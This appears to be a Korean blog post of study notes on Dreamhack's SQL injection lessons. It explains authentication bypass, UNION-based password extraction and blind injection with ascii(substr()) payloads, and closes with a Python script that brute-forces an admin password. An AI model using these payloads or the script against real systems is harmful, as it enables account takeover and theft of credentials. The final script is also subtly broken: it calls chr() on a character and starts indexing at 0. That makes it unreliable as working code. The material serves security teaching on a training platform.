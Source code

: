 ```yaml
---
layout : single
title : "STAGE6. SQL Injection : Serverside"
categories: Security
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```

# 드림핵 웹 SQL Injection (2)

-  [x] Simple SQL Injection
-  [x] Bline SQL Injection

## ServerSide : SQL Injection
Injection : 이용자의 입력값이 애플리케이션의 처리 과정에서 구조 또는 문법적인 데이터로 해석되어 발생하는 취약점

### SQL Injection
SQL은 DBMS에 데이터를 질의하는 언어로, 웹 서비스는 이용자의 입력(로그인 시에 ID/PW, 게시글의 제목과 내용)을 SQL 구문에 포함하여 요청하는 경우가 있다. 아래는 로그인 시 애플리케이션이 DBMS에 질의하는 퀴리의 예시이며, 사용자가 입력한 id와 pw가 뭐리문에 포함되어있는 것을 알 수 있다. 이처럼 SQL에 이용자가 임의 문자열을 삽입하는 행위를 SQL Injection이라 하며, 이 때 우리는 조작된 쿼리로 인증을 우회하거나, 데이터베이스의 정보를 유출할 수 있다.

```SQL
/*
아래 쿼리 질의는 다음과 같은 의미를 가지고 있습니다.
- SELECT: 조회 명령어
- *: 테이블의 모든 컬럼 조회
- FROM accounts: accounts 테이블 에서 데이터를 조회할 것이라고 지정
- WHERE user_id='dreamhack' and user_pw='password': user_id 컬럼이 dreamhack이고, user_pw 컬럼이 password인 데이터로 범위 지정
즉, 이를 해석하면 DBMS에 저장된 accounts 테이블에서 이용자의 아이디가 dreamhack이고, 비밀번호가 password인 데이터를 조회
*/
SELECT * FROM accounts WHERE user_id='dreamhack' and user_pw='password'
```
<br><Br>
아래의 쿼리에서는 user_pw 조건문이 사라져있으며, 이러한 경우 비밀번호의 대조 없이 id만으로 계정에 로그인이 가능하다

```SQL
/*
아래 쿼리 질의는 다음과 같은 의미를 가지고 있습니다.
- SELECT: 조회 명령어
- *: 테이블의 모든 컬럼 조회
- FROM accounts: accounts 테이블 에서 데이터를 조회할 것이라고 지정
- WHERE user_id='admin': user_id 컬럼이 admin인 데이터로 범위 지정
즉, 이를 해석하면 DBMS에 저장된 accounts 테이블에서 이용자의 아이디가 admin인 데이터를 조회
*/
SELECT * FROM accounts WHERE user_id='admin'
```

#### Simple SQL Injection
Union Operator : [link](https://www.w3schools.com/sql/sql_union.asp)<br>
SQL에서 Union은 두 개 이상의 result-set을 결합하는 역할을 한다. 기존의 코드는 user_table에서 uid의 값만 select하기에, SQL을 실행했을 때, uid의 값만을 받아올 수 있다. 따라서, union을 사용하여 upw를 함께 받아오는 코드를 작성한 후, 후의 코드를 --를 통해 주석처리 해주었다.
<br><Br>
<img src = "/images/webbackground/8.png"><br><Br>
결과<br><Br>
<img src = "/images/webbackground/9.png">

#### Blind SQL Injection
아래의 예시와 같이, 스무고개와 유사한 방식으로 데이터를 알아낼 수 있다. DBMS가 답변 가능한 형태로 질문하며, 질의 결과를 이용자가 직접 화면에서 확인하지 못할 때, 참과 거짓의 반환 결과로 데이터를 획득한다

1. Question #1. dreamhack 계정의 비밀번호 첫 번째 글자는 'x' 인가요?<Br>
Answer. 아닙니다

2. Question #2. dreamhack 계정의 비밀번호 첫 번째 글자는 'p' 인가요?<Br>
Answer. 맞습니다 (첫 번째 글자 = p)

3. Question #3. dreamhack 계정의 비밀번호 두 번째 글자는 'y' 인가요?<Br>
Answer. 아닙니다.

4. Question #4. dreamhack 계정의 비밀번호 두 번째 글자는 'a'인가요?<Br>
Answer. 맞습니다. (두 번째 글자 = a)

<br><br>
예시 코드

```SQL
# 첫 번째 글자 구하기 (아스키 114 = 'r', 115 = 's'')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=114-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=115-- ' and upw=''; # True
# 두 번째 글자 구하기 (아스키 115 = 's', 116 = 't')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=115-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=116-- ' and upw=''; # True 
```

---

Blind SQL Injection은 한 바이트씩 비교하기 때문에 다른 공격에 비해 많은 시간을 들여야 하며, 이를 해결하기 위해서는 공격을 자동화하는 스크립트를 작성해야 한다. 

**request 모듈 GET 예제 코드**

```python
import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
params = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.get(url + str(i), headers=headers, params=params)
    print(c.request.url)
    print(c.text)
```

**request 모듈 POST 예제 코드**

```python
import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
data = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.post(url + str(i), headers=headers, data=data)
    print(c.text)
```

---

Blind SQL Injection으로 비밀번호를 알아내는 경우, 알파벳과 숫자, 특수문자를 모두 포함한 범위를 지정해야한다. 아래는 이를 고려하여 작성한 스크립트로, 비밀번호에 포함되는 모든 문자를 string을 사용하여 생성하고, 모든 문자를 한 바이트씩 비교하는 반복문을 작성한다. 반복문 실행 중 반환 결과가 참일 경우 Login success 문자열을 찾고, 해당 결과를 반환한 문자를 password에 저장한다. 이 작업이 끝나면 비밀번호를 알아낼 수 있다.

```python
#!/usr/bin/python3
import requests
import string
url = 'http://example.com/login' # example URL
params = {
    'uid': '',
    'upw': ''
}
tc = string.ascii_letters + string.digits + string.punctuation # abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
query = '''
admin' and ascii(substr(upw,{idx},1))={val}--
'''
password = ''
for idx in range(0, 20):
    for ch in tc:
        params['uid'] = query.format(idx=idx, val=ord(ch)).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        if c.text.find("Login success") != -1:
            password += chr(ch)
            break
print(f"Password is {password}")
```